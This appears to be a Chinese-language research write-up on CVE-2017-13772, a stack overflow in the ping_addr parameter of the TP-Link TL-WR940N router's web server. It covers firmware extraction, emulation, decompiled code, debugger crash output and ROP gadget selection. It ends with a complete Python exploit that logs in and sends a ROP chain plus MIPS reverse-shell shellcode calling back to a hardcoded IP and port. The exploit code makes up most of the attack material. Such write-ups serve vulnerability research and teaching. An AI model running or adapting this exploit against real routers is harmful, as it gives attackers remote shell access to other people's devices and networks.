

# TP-LINK TL-WR940N / TL-WR941ND-缓冲区溢出  CVE-2017-13772

## 简介
固件下载地址 https : //static.tp-link.com/TL-WR940N(US)_V4_160617_1476690524248q.zip


## 解压
Ubuntu下的binwalk  Binwalk v2.1.2   解压不了
最终kali下binwalk 能解决

## 处理固件

**获取信息**

binwalk查看固件运行的cpu架构
```
➜  TL-WR940N(US)_V4_160617_1476690524248q git:(master) ✗ binwalk wr940nv4_us_3_16_9_up_boot\(160617\).bin

DECIMAL       HEXADECIMAL     DESCRIPTION
--------------------------------------------------------------------------------
0             0x0             TP-Link firmware header, firmware version: 0.-6309.3, image version: "", product ID: 0x0, product version: 155189252, kernel load address: 0x0, kernel entry point: 0x80002000, kernel offset: 4063744, kernel length: 512, rootfs offset: 865629, rootfs length: 1048576, bootloader offset: 2883584, bootloader length: 0
15552         0x3CC0          U-Boot version string, "U-Boot 1.1.4 (Jun 17 2016 - 16:14:48)"
15600         0x3CF0          CRC32 polynomial table, big endian
16900         0x4204          uImage header, header size: 64 bytes, header CRC: 0xDC5CE357, created: 2016-06-17 08:14:49, image size: 42775 bytes, Data Address: 0x80010000, Entry Point: 0x80010000, data CRC: 0x5C656922, OS: Linux, CPU: MIPS, image type: Firmware Image, compression type: lzma, image name: "u-boot image"

```


用下面命令运行buxybox查看能够运行的服务

```
➜  squashfs-root chroot .  ./qemu-mips-static   /bin/busybox
BusyBox v1.01 (2016.06.17-08:21+0000) multi-call binary

Usage: busybox [function] [arguments]...
   or: [function] [arguments]...

	BusyBox is a multi-call binary that combines many common Unix
	utilities into a single executable.  Most people will create a
	link to busybox for each function they wish to use and BusyBox
	will act like whatever it was invoked as!

Currently defined functions:
	[, arping, brctl, busybox, cat, chmod, date, df, echo, ethreg, false, getty, hostname, ifconfig, init, insmod, ip, kill, klogd, linuxrc, ln, logger, login, logread, ls, lsmod, mount, msh,
	ping, ps, reboot, rm, rmmod, route, sh, syslogd, test, tftp, true, udhcpc, udhcpd, umount, vconfig
```

查看开机运行的服务
```
cat squashfs-root/etc/rc.d/rcS
```
看到了`/usr/bin/httpd &` 开启了httpd服务， &表示后台运行


## 仿真固件

fat很友好，可以直接仿真但是说密码是sohoadmin尝试之后不能登录

## 测试漏洞

burpsuit抓包修改ping_addr之后可以让服务崩溃。

```
GET /ZYNCGTRAMXJZJWJB/userRpm/PingIframeRpm.htm?ping_addr=aa&doType=ping&isNew=new&sendNum=4&pSize=64&overTime=800&trHops=20 HTTP/1.1
Host: 192.168.0.1
User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:76.0) Gecko/20100101 Firefox/76.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Connection: close
Referer: http://192.168.0.1/ZYNCGTRAMXJZJWJB/userRpm/DiagnosticRpm.htm
Cookie: Authorization=Basic%20YWRtaW46MjEyMzJmMjk3YTU3YTVhNzQzODk0YTBlNGE4MDFmYzM%3D
Upgrade-Insecure-Requests: 1
```

## 分析问题

根据burpsuit抓到的包可以看到ping_addr字段，如果猜测没问题httpd应该会使用httpGetEnv函数获取ping_addr这个环境变量

用ida搜索字符串可以找到ping_addr字符串被使用的地方，ghidra的分析可以看到

```c
  }
  iVar1 = httpGetEnv(uParm1,"ping_addr");
  __s1_00 = (char *)httpGetEnv(uParm1,"doType");
  __s1 = (char *)httpGetEnv(uParm1,"isNew");
  if ((iVar1 == 0) || (__s1_00 == (char *)0x0)) {
```
获取ping_addr

接下来交给函数ipAddrDispose处理
```c
        iVar4 = strcmp(__s1_00,"tracert");
        if (iVar4 == 0) {
          __s1_00 = (char *)httpGetEnv(uParm1,"trHops");
          iVar2 = atoi(__s1_00);
          iVar1 = ipAddrDispose(iVar1);
          if (iVar1 != 0) {
            local_3c = 1;
            local_38 = 1;
            local_34 = iVar1;
            local_30 = iVar2;
            swDiagnosticSendOp(1,1,iVar1,iVar2,local_2c,local_28);
            usleep(iVar7 * 1000);
            uVar5 = swGetTracertResult(&local_50);
            FUN_004533ec(uParm1,uVar5,local_50,0,0);
            goto joined_r0x004543d4;
          }
        }
        else {
          iVar4 = strcmp(__s1_00,"ping");
          if (iVar4 != 0) goto LAB_00454640;
          printf("[ %s ] %03d:  Here is new ping\n\n","pingAndTracert/httpPingAndTracertIframeRpm.c"
                 ,0x234);
          iVar1 = ipAddrDispose(iVar1);
```

```c
in_addr_t ipAddrDispose(char *pcParm1)

{
  size_t sVar1;
  undefined4 uVar2;
  in_addr_t iVar3;
  int iVar4;
  int iVar5;
  int iVar6;
  char *pcVar7;
  bool bVar8;
  int iVar9;
  int iVar10;
  int iVar11;
  int local_c8;
  int local_c4;
  undefined4 local_c0;
  int local_bc [3];
  int local_b0;
  char local_ac [52];
  undefined auStack120 [84];
  undefined4 local_24;
  
  sVar1 = strlen(pcParm1);
  memset(local_ac,0,0x33);
  iVar6 = 0;
  iVar4 = 0;
  while( true ) {
    bVar8 = (int)sVar1 <= iVar4;   //取出来数据
    pcVar7 = pcParm1 + iVar4;　　
    iVar4 = iVar4 + 1;
    if (bVar8) break;
    if (*pcVar7 != ' ') {
      local_ac[iVar6] = *pcVar7;   //在这里进行了拷贝，造成了溢出
      iVar6 = iVar6 + 1;
    }
  }
  strcpy(pcParm1,local_ac);　　//这里又复制了一遍（如果上一步local_ac字符串结尾是"\x00"这里将什么操作都没有）
  sVar1 = strlen(pcParm1);
  iVar9 = (uint)(sVar1 - 7 < 10) - 1;
  iVar10 = 0;
  bVar8 = false;
  iVar6 = 0;
  iVar11 = 0;
  iVar4 = 0;
```

## 动态调试
用qemu的系统模式
```bash
qemu-system-mips -M malta -kernel vmlinux-3.2.0-4-4kc-malta -hda debian_squeeze_mips_standard.qcow2 -nographic -append "root=/dev/sda1 rw console=tty0 init=/linuxrc ignore_loglevel" -net nic,vlan=0 -net tap,vlan=0,ifname=tap0 -redir tcp:2333::2333 -redir tcp:8080::80
```
进入qemu之后确定网络通畅

查看https://blog.csdn.net/qq_38204481/article/details/105391866

`sh -c "echo '0' > /proc/sys/kernel/randomize_va_space"`  关闭加载地址随机化一般mips路由器真实设备是不会开启加载地址随机化的

准备好之后
```bash
在qemu里面进入固件根文件系统
mount --bind /proc ./proc
chroot . bin/sh
usr/bin/httpd
```
用gdbserver attach　httpd的最后一个进程(也可以用pstree -p 查看显示的最后一个httpd的进程)

```bash
root@TL-WR940N:~# pidof httpd
8264 8258 8257 8256 8255 8254 8252 8251 8250 8228 4914 4913 4912 4910 4440 4439 4402 4159 4157 4156
root@TL-WR940N:~# ./gdbserver --attach 0.0.0.0:2333 8264

➜  ~ gdb-multiarch
gdb-peda$ set architecture mips
The target architecture is assumed to be mips
gdb-peda$ target remote 172.17.221.20:2333
gdb-peda$ set follow-fork-mode  child
```


## 测试漏洞

这里为了方便写了个登录

```python
import urllib
import base64
import hashlib
import requests

# -*- coding:utf-8 _*-


import socks, socket

socks.set_default_proxy(socks.PROXY_TYPE_SOCKS5, "127.0.0.1", 9999)
socket.socket = socks.socksocket

session=requests.Session()
session.verify=False

def login(ip,user,pwd):
    hash=hashlib.md5()
    hash.update(pwd)
    auth_string="%s:%s" %(user,hash.hexdigest())
    encoded_string = base64.b64encode(auth_string)
    encoded_string=urllib.quote(" "+encoded_string)
    print(encoded_string)
    headers={"User-Agent": "Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:76.0) Gecko/20100101 Firefox/76.0",
            "Accept": "text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8",
            "Accept-Language": "zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2",
            "Accept-Encoding": "gzip, deflate",
            "Connection": "close",
            "Referer": "http://192.168.0.1/",
            "Cookie": "Authorization=Basic%s"%encoded_string,
            "Upgrade-Insecure-Requests": "1"}
    params={"Save":"Save"}
    url = "http://" + ip + "/userRpm/LoginRpm.htm"
    resp=session.get(url,params=params,headers=headers,timeout=10)
    url="http://%s/%s/userRpm"%(ip,(resp.text).split("=")[2].split("/")[3])
    cookie="Authorization=Basic%s"%encoded_string
    return url,cookie
def exploit(url,auth):
 test="AAA%AAsAABAA$AAnAACAA-AA(AADAA;AA)AAEAAaAA0AAFAAbAA1AAGAAcAA2AAHAAdAA3AAIAAeAA4AAJAAfAA5AA" \
         "KAAgAA6AALAAhAA7AAMAAiAA8AANAAjAA9AAOAAkAAPAAlAAQAAmAARAAoAASAApAATAAqAAUAArAAVAAtAAWAAuAAXAAvAAYAAwAAZAAxAAyA"#200
    params={'ping_addr':test,
            'doType':'ping',
            'isNew':'new',
            'sendNum':'20',
            'pSize':'64',
            'overTime':'800',
            'trHops':'20'}
    headers = {"User-Agent": "Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:76.0) Gecko/20100101 Firefox/76.0",
               "Accept": "text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8",
               "Accept-Language": "zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2",
               "Accept-Encoding": "gzip, deflate",
               "Connection": "close",
               "Referer": "%s"%url,
               "Cookie":  auth,
               "Upgrade-Insecure-Requests": "1"}
    resp=session.get(url,params=params,headers=headers)
    print resp.text


url,auth=login("172.17.221.20","admin","admin")
print url+"/PingIframeRpm.htm"
print auth
exploit(url+"/PingIframeRpm.htm",auth)
```
用brupsuit 抓包也能测试


发送构造的测试poc之后断在了
```bash
0x56414174 in ?? ()
LEGEND: STACK | HEAP | CODE | DATA | RWX | RODATA
───────────────────────────────────────────────────────────────────────────────────────────────[ REGISTERS ]────────────────────────────────────────────────────────────────────────────────────────────────
 V0   0x0
 V1   0x0
 A0   0xbc3e94 ◂— 0x41414125 ('AAA%')
 A1   0x0
 A2   0x3f
 A3   0x7cfff9ef ◂— 0
 T0   0xc
 T1   0x0
 T2   0x0
 T3   0x0
 T4   0x0
 T5   0x1
 T6   0x5dc
 T7   0x0
 T8   0x0
 T9   0x4ba17c ◂— lui    $a1, 0x5a
 S0   0x41415541 ('AAUA')
 S1   0x41724141 ('ArAA')
 S2   0x320
 S3   0xbc3dd8 ◂— 'ping'
 S4   0x14
 S5   0xbc1c6c —▸ 0xbc2da4 ◂— 0xa0004
 S6   0xbc3e94 ◂— 0x41414125 ('AAA%')
 S7   0x506cb8 ◂— lui    $gp, 0x5c
 S8   0x574a54fa
 FP   0x7cfffb30 ◂— 0x41415741 ('AAWA')
 SP   0x7cfffb30 ◂— 0x41415741 ('AAWA')
 PC   0x56414174 ('VAAt')
─────────────────────────────────────────────────────────────────────────────────────────────────[ DISASM ]─────────────────────────────────────────────────────────────────────────────────────────────────
Invalid address 0x56414174


─────────────────────────────────────────────────────────────────────────────────────────────────[ STACK ]──────────────────────────────────────────────────────────────────────────────────────────────────
00:0000│ fp sp  0x7cfffb30 ◂— 0x41415741 ('AAWA')
01:0004│        0x7cfffb34 ◂— 0x41754141 ('AuAA')
02:0008│        0x7cfffb38 ◂— 0x58414176 ('XAAv')
03:000c│        0x7cfffb3c ◂— 0x41415941 ('AAYA')
04:0010│        0x7cfffb40 ◂— 0x41774141 ('AwAA')
05:0014│        0x7cfffb44 ◂— 0x5a414178 ('ZAAx')
06:0018│        0x7cfffb48 ◂— 0x41417941 ('AAyA')
07:001c│        0x7cfffb4c ◂— 0x1e2ff000
───────────────────────────────────────────────────────────────────────────────────────────────[ BACKTRACE ]────────────────────────────────────────────────────────────────────────────────────────────────
 ► f 0 56414174
────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────
gdb-peda$ 
```
## 编写rop
计算出偏移
```bash
ip偏移168　　值
s0    	160 值
s1 		164　值
sp 		172 只指向的内容

`"a"*160+s0+s1+ip+*sp`
```
为了调用sleep函数   **记作rop1**
```bash
用mipsrop(ida插件)搜索到了这个    

mipsrop.("li $a0,.")
0x00055C60  |  li $a0,1                                            |  jalr  $s1


真正的汇编指令是

LOAD:00055C60                 li      $a0, 1
LOAD:00055C64                 move    $t9, $s1
LOAD:00055C68                 jalr    $t9 ; sub_55960
LOAD:00055C6C                 ori     $a1, $s0, 2
```

将sleep函数的地址放入s1就能调用sleep(1)

到现在为止所构造的paylod为`"a"*160+s0+sleep_addr+rop1+sp`

但是在调用sleep函数之前需要先设置ra寄存器，在sleep函数返回后继续劫持程序执行流。    **记作parament_sleep**

`mipsrop.find("lw $ra,.")`找到了`|  0x0001E20C  |  lw $ra,0x28+var_4($sp)                              |  jr    $s1    `  

```c
LOAD:0001E20C                 move    $t9, $s1
LOAD:0001E210                 lw      $ra, 0x28+var_4($sp)  0x24
LOAD:0001E214                 lw      $s2, 0x28+var_8($sp)  0x20
LOAD:0001E218                 lw      $s1, 0x28+var_C($sp)  0x1c
LOAD:0001E21C                 lw      $s0, 0x28+var_10($sp) 0x18
LOAD:0001E220                 jr      $t9
LOAD:0001E224                 addiu   $sp, 0x28
```
重点注意`LOAD:0001E224                 addiu   $sp, 0x28`指令也会被执行这是处理器流水线化的处理

payload变成了`"a"*160+s0(不再有用)+parament_sleep+rop1+(sp)"a"*0x18+s0+s1+s2+ra+sp(新的sp)`

这里把s1设置为下一次要跳转的地址需要运行两次rop2（因为s1寄存器在第一次使用rop2的时候已经被使用了）。

`"a"*164+parament_sleep+rop1+(sp)"a"*0x1c+s1(这里写要跳转的地址，第二遍rop2执行完会跳转)+“aaaa”*2+sp(第一次完成rop2的sp)"b"*0x18+s0+s1+s2+ra+sp`


调用sleep的shellcode 为

`"a"*164+parament_sleep+rop1+(sp)"a"*0x1c+sleep_addr+“aaaa”*2+sp(第一次完成rop2的sp)"b"*0x24+rop3+sp`

调用完sleep(1)之后需要继续劫持程序执行流到跳转到运行shellcode

接下来查找rop      **记作stack_to_s2**
```
mipsrop.stackfinder()
0x000164C0  |  addiu $s2,$sp,0x198+var_180                         |  jalr  $s0 
```
实际汇编指令为

```c
LOAD:000164C0                 addiu   $s2, $sp, 0x198+var_180  0x18
LOAD:000164C4                 move    $a2, $v1
LOAD:000164C8                 move    $t9, $s0
LOAD:000164CC                 jalr    $t9 ; mempcpy
LOAD:000164D0                 move    $a0, $s2
```
这里s2将会指向shellcode首地址，然后跳转到s0。

payload将会变为`"a"*164+parament_sleep+rop1+(sp)"a"*0x1c+sleep_addr+“aaaa”*2+sp(第一次完成rop2的sp)"b"*0x18+s0+s1+s2+stack_to_s2+(sp)"a"*0x18+shellcode`

但是这个结束之后会跳转到s0，这个执行完之后需要执行跳转到s2。需要在执行这个rop之前为s0赋值

**记作call_s2**
```
使用的命令(这里使用这个命令是因为mips调用函数的习惯)
mipsrop.find("move $t9,$s2")
0x000118A4  |  move $t9,$s2                                        |  jalr  $s2
实际汇编指令为
LOAD:000118A4                 move    $t9, $s2
LOAD:000118A8                 jalr    $t9	
LOAD:000118AC                 lw      $a2, 0x14($s1)
```
到这里汇编指令就变为了`"a"*164+parament_sleep+rop1+(sp)"a"*0x1c+sleep_addr+“aaaa”*2+sp(第一次完成rop2的sp)"b"*0x18+call_s2+s1+s2+stack_to_s2+(sp)"a"*0x18+shellcode`


## rop总结

注意点
- mips架构cpu流水线会执行当前指令和当前指令的下一条指令，也就是跳转指令的下一条指令也会执行(这种执行)
- 可以用usleep函数代替sleep函数（sleep函数容易出问题）

 


## shellcode

这里没有什么过滤，直接用写好的shellcode就行。

可以从这里查找

http://shell-storm.org/shellcode/files/shellcode-794.php
https://www.exploit-db.com/exploits/45541


## exp

```python
#coding=utf-8
#coding=utf-8
import urllib2
import urllib
import base64
import hashlib
import requests
from pwn import *
context.arch="mips"
context.endian="big"

# -*- coding:utf-8 _*-
#https://fidusinfosec.com/tp-link-remote-code-execution-cve-2017-13772/
# https://paper.seebug.org/434/

import socks, socket

# socks.set_default_proxy(socks.PROXY_TYPE_SOCKS5, "127.0.0.1", 9999)
# socket.socket = socks.socksocket

session=requests.Session()
session.verify=False
payload=        "\x24\x0f\xff\xfa\x01\xe0\x78\x27"+\
            "\x21\xe4\xff\xfd"      +\
            "\x21\xe5\xff\xfd"      +\
            "\x28\x06\xff\xff"      +\
            "\x24\x02\x10\x57"      +\
            "\x01\x01\x01\x0c"      +\
            "\xaf\xa2\xff\xff"      +\
            "\x8f\xa4\xff\xff"      +\
            "\x34\x0f\xff\xfd"      +\
            "\x01\xe0\x78\x27"      +\
            "\xaf\xaf\xff\xe0"

            #/* ================ You can change port here  ================= */
payload+=            "\x3c\x0e\x7a\x69"     # // lui     $t6, 0x7a69 ( sin_port = 0x7a69 )
            #/* ============================================================ */

payload+=            "\x35\xce\x7a\x69"  +\
            "\xaf\xae\xff\xe4"

            #/* ================ You can change ip here  ================= */
payload+=            "\x3c\x0e\xac\x11"      #// lui     $t6, 0xc0a8         ( sin_addr = 0xc0a8 ...
payload+=            "\x35\xce\xdd\x87"      #// ori     $t6, $t6, 0x029d                 ... 0x029d
            #/* ============================================================ */

payload+=            "\xaf\xae\xff\xe6"      +\
            "\x27\xa5\xff\xe2"     +\
            "\x24\x0c\xff\xef"      +\
            "\x01\x80\x30\x27"      +\
            "\x24\x02\x10\x4a"      +\
            "\x01\x01\x01\x0c"      +\
            "\x24\x0f\xff\xfd"      +\
            "\x01\xe0\x28\x27"      +\
            "\x8f\xa4\xff\xff"      +\
            "\x24\x02\x0f\xdf"      +\
            "\x01\x01\x01\x0c"      +\
            "\x24\xa5\xff\xff"      +\
            "\x24\x01\xff\xff"      +\
            "\x14\xa1\xff\xfb"      +\
            "\x28\x06\xff\xff"      +\
            "\x3c\x0f\x2f\x2f"      +\
            "\x35\xef\x62\x69"      +\
            "\xaf\xaf\xff\xec"      +\
            "\x3c\x0e\x6e\x2f"      +\
            "\x35\xce\x73\x68"      +\
            "\xaf\xae\xff\xf0"      +\
            "\xaf\xa0\xff\xf4"      +\
            "\x27\xa4\xff\xec"      +\
            "\xaf\xa4\xff\xf8"      +\
            "\xaf\xa0\xff\xfc"      +\
            "\x27\xa5\xff\xf8"      +\
            "\x24\x02\x0f\xab"      +\
            "\x01\x01\x01\x0c"

libc_address=0x77f4b000#0x7780e000
#

# libc=ELF("./libuClibc-0.9.30.so")
    # print hex(libc.symbols["pwrite"]+libc_address)

rop1=0x00055C60+libc_address #a0=1  jr $s9
parament_sleep=0x0001E20C+libc_address  # lw $ra,0x28+var_4($sp)                              |  jr    $s1
stack_to_s2=0x000164C0+libc_address  #|  move $t9,$s2                                        |  jalr  $s2
sleep_addr=0x0053090+libc_address
call_s2=0x0003E224+libc_address
def login(ip,user,pwd):
    hash=hashlib.md5()
    hash.update(pwd)
    auth_string="%s:%s" %(user,hash.hexdigest())
    encoded_string = base64.b64encode(auth_string)
    encoded_string=urllib.quote(" "+encoded_string)
    print(encoded_string)
    headers={"User-Agent": "Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:76.0) Gecko/20100101 Firefox/76.0",
            "Accept": "text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8",
            "Accept-Language": "zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2",
            "Accept-Encoding": "gzip, deflate",
            "Connection": "close",
            "Referer": "http://192.168.0.1/",
            "Cookie": "Authorization=Basic%s"%encoded_string,
            "Upgrade-Insecure-Requests": "1"}
    params={"Save":"Save"}
    url = "http://" + ip + "/userRpm/LoginRpm.htm"
    resp=session.get(url,params=params,headers=headers,timeout=10)
    url="http://%s/%s/userRpm"%(ip,(resp.text).split("=")[2].split("/")[3])
    cookie="Authorization=Basic%s"%encoded_string
    return url,cookie
def exploit(url,auth):
    
    exp="a"*164+p32(parament_sleep)+p32(rop1)+"a"*0x1c+p32(sleep_addr)
    exp+="aaaa"*2+"b"*0x18+p32(call_s2)+"aaaa"*2+p32(stack_to_s2)+"a"*0x18+payload
    #"a"*160+s0(不再有用)+rop2+rop1+(sp)"a"*0x18+s0+s1+s2+ra+sp(新的sp)
    print hex(rop1)
    print hex(sleep_addr)

    params={'ping_addr':exp,
            'doType':'ping',
            'isNew':'new',
            'sendNum':'20',
            'pSize':'64',
            'overTime':'800',
            'trHops':'20'}
    headers = {"User-Agent": "Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:76.0) Gecko/20100101 Firefox/76.0",
               "Accept": "text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8",
               "Accept-Language": "zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2",
               "Accept-Encoding": "gzip, deflate",
               "Connection": "close",
               "Referer": "%s"%url,
               "Cookie":  auth,
               "Upgrade-Insecure-Requests": "1"}
    resp=session.get(url,params=params,headers=headers)
    print resp.text


url,auth=login("172.17.221.20","admin","admin")
print url+"/PingIframeRpm.htm"
print auth
exploit(url+"/PingIframeRpm.htm",auth)

```


# 940N
## CVE-2017-13772
- v4
- 命令执行
- 溢出

https://www.exploit-db.com/exploits/43022

https://fidusinfosec.com/tp-link-remote-code-execution-cve-2017-13772/
